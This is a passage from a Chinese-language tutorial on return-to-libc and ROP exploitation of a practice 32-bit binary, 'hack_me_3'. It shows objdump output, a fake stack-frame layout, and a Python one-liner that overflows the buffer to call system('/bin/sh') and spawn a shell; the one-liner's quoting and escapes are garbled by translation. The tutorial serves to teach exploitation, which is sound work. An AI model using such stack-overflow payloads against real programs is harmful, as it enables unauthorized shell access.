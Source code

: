 我们可以构造我们自己的堆栈帧

控制参数到我们跳转到的函数

确定此函数返回的位置

如果我们控制这两者之间的堆栈，我们可以控制返回函数的参数

通过ROP链接在多个函数中跳转

从objdump我们看到“/ bin / sh”的地址是 0x080485E0



```
$ objdump -s -j .rodata hack_me_3
hack_me_3:     file format elf32-i386
Contents of section .rodata:
80485d8 03000000 01000200 2f62696e 2f736800  ......../bin/sh.
80485e8 636f7773 61792074 72792061 6761696e  cowsay try again
80485f8 00257300 70776e65 64004e69 63652074  .%s.pwned.Nice t
8048608 72790a00
```

我们构造一个“假”的堆栈结构，然后修改函数的返回地址，这样的堆栈结构如下:



```
ADDRESS       DATA
........
 // exploitable() stack
0xbfff0004    80 48 4d 90  &lt;- return address
// our frame
0xbfff0008    41 41 41 41  &lt;- saved return pointer, system()
0xbfff000c    08 04 85 E0  &lt;- "/bin/sh"
```

所以以，当函数exploitable()返回时，它返回system()，将看到它返回地址为41414141和参数为“/bin/sh”，这将产生一个shell，但是当它返回时会弹出41414141到EIP，它是一个有效的地址，我们可以ROP连接他们，只要他们不需要参数。所以，我们最后的利用代码是:

```
$（python -c'print“A”* 28 +“ x90  x83  x04  x08”+“ x41  x41  x41  x41”+“ xE0  x85  x04  x08” | ./hack_me_3
```

[![](./img/85619/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016cd9c7e9a55fcd2c.png)

<br>

**参考文献**

[https://sploitfun.wordpress.com/](https://sploitfun.wordpress.com/) 

[https://blog.zynamics.com/2010/03/12/a-gentle-introduction-to-return-oriented-programming/](https://blog.zynamics.com/2010/03/12/a-gentle-introduction-to-return-oriented-programming/) 

[https://crypto.stanford.edu/~blynn/rop/](https://crypto.stanford.edu/~blynn/rop/) 
